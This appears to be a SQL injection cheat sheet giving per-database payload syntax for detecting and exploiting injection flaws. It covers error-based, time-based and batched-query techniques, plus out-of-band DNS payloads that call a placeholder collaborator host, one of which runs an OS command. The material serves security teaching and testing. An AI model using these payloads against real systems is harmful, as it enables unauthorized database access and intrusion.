 # SQL Injection Cheat Sheet

This SQL injection cheat sheet contains examples of useful syntax for performing various SQL injection attacks.

## String Concatenation
Concatenate multiple strings into a single string.

| Database   | Syntax                          |
|------------|---------------------------------|
| Oracle     | `'foo'||'bar'`                 |
| Microsoft  | `'foo'+'bar'`                  |
| PostgreSQL | `'foo'||'bar'`                 |
| MySQL      | `'foo' 'bar'` (space between)  |
|            | `CONCAT('foo','bar')`          |

## Substring
Extract part of a string (returns 'ba' from 'foobar').

| Database   | Syntax                          |
|------------|---------------------------------|
| Oracle     | `SUBSTR('foobar', 4, 2)`       |
| Microsoft  | `SUBSTRING('foobar', 4, 2)`    |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)`    |
| MySQL      | `SUBSTRING('foobar', 4, 2)`    |

## Comments
Truncate queries using comments.

| Database   | Syntax                          |
|------------|---------------------------------|
| Oracle     | `--comment`                    |
| Microsoft  | `--comment` or `/*comment*/`   |
| PostgreSQL | `--comment` or `/*comment*/`   |
| MySQL      | `#comment`                     |
|            | `-- comment` (space after --)  |
|            | `/*comment*/`                  |

## Database Version
Query database type and version.

| Database   | Syntax                          |
|------------|---------------------------------|
| Oracle     | `SELECT banner FROM v$version`<br>`SELECT version FROM v$instance` |
| Microsoft  | `SELECT @@version`             |
| PostgreSQL | `SELECT version()`             |
| MySQL      | `SELECT @@version`             |

## Database Contents
List tables and columns.

| Database   | Syntax                          |
|------------|---------------------------------|
| Oracle     | `SELECT * FROM all_tables`<br>`SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| Microsoft  | `SELECT * FROM information_schema.tables`<br>`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL | Same as Microsoft              |
| MySQL      | Same as Microsoft              |

## Conditional Errors
Trigger errors based on conditions.

| Database   | Syntax                          |
|------------|---------------------------------|
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual` |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)` |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

## Time Delays
Cause unconditional time delays (10 seconds).

| Database   | Syntax                          |
|------------|---------------------------------|
| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft  | `WAITFOR DELAY '0:0:10'`       |
| PostgreSQL | `SELECT pg_sleep(10)`          |
| MySQL      | `SELECT SLEEP(10)`             |

## Conditional Time Delays
Trigger delays based on conditions.

| Database   | Syntax                          |
|------------|---------------------------------|
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'` |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')` |

## DNS Lookup
Trigger external DNS lookups (requires Burp Collaborator).

| Database   | Syntax                          |
|------------|---------------------------------|
| Oracle     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` |
| Microsoft  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'` |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` |
| MySQL      | `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')` (Windows only) |

## Batched Queries
Execute multiple queries (stacked queries).

| Database   | Support                         |
|------------|---------------------------------|
| Oracle     | Not supported                   |
| Microsoft  | `QUERY-1-HERE; QUERY-2-HERE`    |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE`    |
| MySQL      | Limited support (depends on API) |
